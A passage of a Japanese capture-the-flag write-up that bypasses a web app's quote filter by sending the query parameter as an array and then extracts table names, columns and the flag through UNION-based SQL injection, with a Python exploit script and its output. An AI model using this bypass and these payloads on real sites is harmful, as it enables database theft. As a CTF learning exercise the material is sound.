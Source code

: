 この不思議な挙動は文字列と配列のいずれにも `slice` というメソッドが存在するためでしょう。

例えば `/?q[]=%27abc&q[]=%27` のときには `q` が `["'abc", "'"]` になります。`q` の各要素をチェックしている部分で `q[1]` (= `"'"`) のときに `-` `"` `'` `.` のチェックに引っかかり、`q = q.slice(0, i) + "*" + q.slice(i + 1, q.length);` が実行されます。この時点で `q.slice(0, i)` と `q.slice(i + 1, q.length)` はいずれも配列ですが、`"*"` と `+` 演算子で結合されることで文字列に変換され、これ以降 `q` は配列ではなく文字列になります。

`/?q[]=%27abc&q[]=a` のように、もし `q[1]` が `"'"` でなければ `q = q.slice(0, i) + "*" + q.slice(i + 1, q.length);` は実行されません。このとき `q` は配列のままですから、`q = q.substring(0, 80);` で `substring` という存在しないメソッドを呼び出すことになり、エラーが発生します。

これを利用して SQLi をしていきましょう。まずは `information_schema.tables` からテーブルの情報を抜き出します。

```python
import requests
import urllib.request

URL = '(省略)'
payload = "' union select table_name from information_schema.tables;-- "
url = URL + '?q[]=' + urllib.request.quote(payload) + '&q[]=a' * (len(payload) - 2) + '&q[]=%27'

print(requests.get(url).text)
```

```
$ python3 req.py
︙
                                <tr><td>pg_auth_members</td><td>where's my million dollars</td></tr>

                                <tr><td>criminals</td><td>where's my million dollars</td></tr>

                                <tr><td>pg_stat_user_functions</td><td>where's my million dollars</td></tr>
︙
```

`Criminals` というテーブルがあるようです。知ってた。`information_schema.columns` からカラムの情報を抜き出します。`payload` を `"' union select table_name||column_name from information_schema.columns;-- ` に変えて実行します。

```
$ python3 req.py
︙
                                <tr><td>criminalscrime</td><td>where's my million dollars</td></tr>
︙
                                <tr><td>criminalsname</td><td>where's my million dollars</td></tr>
︙
```

`Criminals` の内容を抜き出します。`payload` を `' union select crime from criminals;-- ` に変えて実行します。

```
$ python3 req.py
︙
                                <tr><td>He&#39;s been hoarding the flag actf{qu3r7_s7r1ng5_4r3_0u7_70_g37_y0u}</td><td>where's my million dollars</td></tr>
︙
```
